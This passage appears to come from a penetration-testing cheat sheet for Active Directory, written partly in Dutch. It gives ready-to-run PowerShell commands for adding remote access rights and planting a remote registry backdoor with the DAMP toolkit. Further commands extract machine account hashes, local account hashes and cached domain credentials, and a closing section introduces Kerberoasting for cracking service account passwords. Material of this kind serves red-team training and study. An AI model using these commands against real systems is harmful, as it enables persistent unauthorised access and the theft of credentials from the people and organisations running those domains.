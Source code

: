 #### Check WMI permissions
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

### SecurityDescriptor - Powershell Remoting
```
. ./Set-RemotePSRemoting.ps1
```

#### On a local machine
```
Set-RemotePSRemoting -Username <username> -Verbose
```

#### On a remote machine without credentials
```
Set-RemotePSRemoting -Username <username> -Computername <computername> -Verbose
```

#### On a remote machine remove permissions
```
Set-RemotePSRemoting -Username <username> -Computername <computername> -Remove
```

### SecurityDescriptor - Remote Registry
Using the DAMP toolkit
```
. ./Add-RemoteRegBackdoor
. ./RemoteHashRetrieval
```

#### Using DAMP with admin privs on remote machine
```
Add-RemoteRegBackdoor -Computername <computername> -Trustee <username> -Verbose
```

#### Retrieve machine account hash from local machine
```
Get-RemoteMachineAccountHash -Computername <computername> -Verbose
```

#### Retrieve local account hash from local machine
```
Get-RemoteLocalAccountHash -Computername <computername> -Verbose
```

#### Retrieve domain cached credentials from local machine
```
Get-RemoteCachedCredential -Computername <computername> -Verbose
```
# Domain Privilege escalation
## Kerberoast
Kerberoasting een technique waarbij de wachtwoorden van service accounts worden gekraakt. Kerberoasting is voornamelijk efficient indien er user accounts als service accounts worden gebruikt. Een TGS ticket kan worden aangevraagd voor deze user, waarbij de TGS versleuteld is met de NTLM hash van de plaintext wachtwoord van de gebruiker. Als de service account een user account is welke zelf is aangemaakt door de beheerder is de kans groter dat deze ticket te kraken is, en dus het wachtwoord wordt achterhaalt voor de service. Deze TGS ticket kan offline gekraakt worden. Voor de aanval word de kerberoas[https://github.com/nidem/kerberoast] repositorie van Nidem gebruikt.
#### Find user accounts used as service accounts
```
. ./GetUserSPNs.ps1
```